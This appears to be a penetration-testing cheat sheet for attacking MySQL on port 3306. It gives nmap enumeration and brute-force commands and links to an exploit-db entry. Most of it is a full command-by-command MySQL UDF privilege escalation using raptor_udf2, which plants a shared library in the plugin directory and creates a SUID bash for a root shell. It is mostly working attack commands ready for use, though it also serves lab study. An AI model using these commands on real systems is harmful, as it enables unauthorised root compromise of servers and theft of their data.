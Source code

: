 # Port 3306 MySQL

## Enumeration:

Name:
Version:

- nmap script scan

	  nmap -sV -Pn -vv -script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 -p 3306 <target_address>

- nmap scripts
	mysql-audit.nse
	mysql-brute.nse
	mysql-databases.nse
	mysql-dump-hashes.nse
	mysql-empty-password.nse
	mysql-enum.nse
	mysql-info.nse
	mysql-query.nse
	mysql-users.nse
	mysql-variables.nse
	mysql-vuln-cve2012-2122.nse
	
## bruteforce with nmap

	nmap --script=mysql-brute -p 3306 <target_address>

## MySQL Commands

https://devhints.io/mysql

- ### Connect to Database 
	  
	  mysql --host=<target_address> -u root -p


## Version 4.x-5.0

  https://www.exploit-db.com/exploits/1518
  
## User Defined Functions Exploit

- Conditions: 
  - mysql running with root priviledges
  - ability to upload and compile exploit file
  - The MySQL service is running as root and the "root" user for the service does not have a password assigned.
- We can use a popular exploit that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

- Change into the /home/user/tools/mysql-udf directory:

      cd /home/user/tools/mysql-udf

- Compile the raptor_udf2.c exploit code using the following commands:

      gcc -g -c raptor_udf2.c -fPIC
	  gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
  
- Connect to the MySQL service as the root user with a blank password:

      mysql -u root

- Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our   compiled exploit:

      use mysql;
	  create table foo(line blob);
	  insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
	  select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
	  create function do_system returns integer soname 'raptor_udf2.so';

- Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

      select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
  
- Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to      gain a shell running with root privileges:

	  /tmp/rootbash -p
 
- Remember to remove the /tmp/rootbash executable and exit out of the root shell when you are finished.
  
      rm /tmp/rootbash
	  exit